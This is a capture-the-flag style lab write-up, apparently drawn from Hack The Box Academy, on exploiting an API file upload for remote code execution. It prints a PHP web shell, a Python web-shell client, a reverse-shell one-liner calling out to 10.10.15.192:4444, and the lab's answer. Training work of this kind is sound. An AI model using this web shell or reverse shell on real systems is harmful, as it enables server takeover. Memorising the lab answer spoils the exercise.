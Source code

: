 ```yaml
---
sticker: emoji//1f480
---
```


# Arbitrary File Upload

Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

***

### PHP File Upload via API to RCE

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing an application residing in `http://<TARGET IP>:3001`.

When we browse the application, an anonymous file uploading functionality sticks out.&#x20;

![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

* _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
* The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
* Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
* Using something like [file\_get\_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
* We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

Code: python

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Use the script as follows.

```shell-session
smoothment@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.

```shell-session
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

## Question

***

![](images/Pasted%20image%2020250219162424.png) Let's begin by going into the application:

![](images/Pasted%20image%2020250219162641.png)

We can upload files, let's upload a file named `backdoor.php` with the following contents:

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![](images/Pasted%20image%2020250219162652.png)

Let's use this python script to interact with our webshell:

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Now, let's use it:

```shell-session
python3 web_shell.py -t http://10.129.27.149:3001/uploads/backdoor.php -o yes
```

We get a shell:

![](images/Pasted%20image%2020250219162817.png)

We can try moving it to netcat, let's set up a listener and use the following:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

We get this: ![](images/Pasted%20image%2020250219164104.png)

We got a shell in netcat, now, let's read the hostname:

```
root@nix01-websvc:/app/php/uploads# cat /etc/hostname

nix01-websvc
```

Answer is:

```
nix01-websvc
```
